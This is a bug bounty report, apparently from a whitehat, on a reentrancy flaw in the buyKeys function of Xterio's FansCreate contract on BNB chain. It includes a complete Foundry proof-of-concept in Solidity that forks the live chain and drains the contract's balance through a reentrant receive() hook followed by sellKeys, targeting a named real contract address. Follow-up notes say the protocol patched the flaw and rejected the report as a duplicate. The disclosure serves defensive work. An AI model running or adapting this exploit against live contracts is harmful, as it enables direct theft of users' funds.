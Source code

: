 # Reentrancy attack on `buyKeys` function

- Protocol: [Xterio](https://www.xter.io/)
- Severity: Critical

## Target(s)

- [FansCreate](https://bnb.xterscan.io/address/0x70D75ae4b40Ac5A8E1f2AbE888978Ba28329C00F)

## Impact(s)

- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield

## Bug Description

### Brief/Intro

The `buyKeys` function has no `nonReentrant` guard so it is susceptible to reentrancy attacks, with the combination of the `sellKeys` function all the funds of the contract can be stolen.

### Vulnerability Details

In the `buyKeys` function the purchase price is calculated, then the surplus is returned to the sender and finally the ERC1155 is undermined. If the sender is a contract, it could take advantage of the call where the surplus is returned and make another purchase without updating the `totalSupply`, thus miscalculating the purchase price. Then this contract sells the tokens bought at a lower price for a higher price, emptying the total funds of the contract.

### Impact Details

The total balance of the **FansCreate** contract

## Proof of Concept

```solidity
pragma solidity ^0.8.0;

import "forge-std/Test.sol";
import "openzeppelin-contracts/contracts/token/ERC1155/utils/ERC1155Holder.sol";

contract PoC is Test {
    function testPoC() public {
        vm.selectFork(vm.createFork("https://xterio-bnb.alt.technology"));

        IFansCreate fans = IFansCreate(0x70D75ae4b40Ac5A8E1f2AbE888978Ba28329C00F);

        HackBuyer hackBuyer = new HackBuyer();
        vm.deal(address(hackBuyer), 1000 ether);

        // Start the attack
        for (uint i; i < 200;i++) {
            if (address(fans).balance < 50 ether) break;
            hackBuyer.buyKeys(fans, 1);
        }

        if (address(hackBuyer).balance > 1000 ether){
            console.log("Win");
            uint total = address(hackBuyer).balance - 1000 ether;
            console.log(total);
            console.log(total / 1e18);
        } else
            console.log("LOSS");
    }


    receive() external payable {}
}

contract HackBuyer is ERC1155Holder {
    IFansCreate fans;
    uint256 workId;
    uint256 amount = 500;

    function buyKeys(IFansCreate _fans, uint256 _workId) public {
        fans = _fans;
        workId = _workId;
        fans.buyKeys{value: fans.getBuyPrice(workId, 1).priceAfterFee + 1}(
            address(this), // trader,
            workId, // workId,
            1, // amount,
            99999999999999999 // maxPriceAfterFee
        );

        fans.sellKeys(
            workId,
            fans.balanceOf(address(this), workId),
            0
        );

        i = 0;
    }

    uint256 i;

    receive () payable external {
        if (i++ > 1) return;
        fans.buyKeys{value: fans.getBuyPrice(workId, amount).priceAfterFee + 1}(
            address(this), // trader,
            workId, // workId,
            amount, // amount,
            999999999999999999999999999999999999999999 // maxPriceAfterFee
        );
    }
}


interface IFansCreate {
    struct PriceFeeInfo {
        uint256 price;
        uint256 priceAfterFee;
        uint256 creatorFee;
        uint256 projectFee;
        uint256 protocolFee;
        uint256 projectId;
    }

    function balanceOf(address account, uint256 id) external view returns (uint256);

    function getBuyPrice(
        uint256 workId,
        uint256 amount
    ) external view returns (PriceFeeInfo memory);

    function buyKeys(
        address trader,
        uint256 workId,
        uint256 amount,
        uint256 maxPriceAfterFee
    ) external payable;

    function sellKeys(
        uint256 workId,
        uint256 amount,
        uint256 minPriceAfterFee
    ) external;
}
```

## Info after reported

- rotcivegaf: 

At the time I submitted the report, the bug was active and the funds(874 BNB ≈ 500k USD) were at risk. Through this report and through their discord I warned the protocol, after a few hours they managed to protect themselves from the attack. I believe I have managed to safeguard these funds

- Declan (Xterio): 

This issue has already been reported by another WHITEHAT in report #####.

The bug bounty program only pays a reward to the first report of any particular issue, so this report will not receive a reward.
